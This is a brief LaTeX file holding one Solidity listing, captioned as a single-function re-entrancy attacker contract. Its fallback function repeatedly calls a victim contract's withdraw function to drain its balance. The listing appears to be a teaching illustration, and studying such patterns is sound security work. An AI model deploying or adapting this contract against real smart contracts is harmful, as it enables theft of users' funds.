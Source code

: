 \documentclass[12pt]{article}
\newcommand{\codeinline}[1]{\texttt{#1}}
\begin{document}
\begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy Attacker Contract]
  contract Attacker {
      Victim victim;
      uint256 private initialDeposit;
  
      constructor(address _vulnerable) {
          victim = Victim(_vulnerable);
      }
  
      function attack() public payable {
          initialDeposit = msg.value;
          victim.deposit{value: msg.value}();
          victim.withdraw();
      }
  
      receive() external payable {
          if (address(victim).balance > initialDeposit) {
              victim.withdraw();
          }
      }
  }
\end{lstlisting}










\end{document}
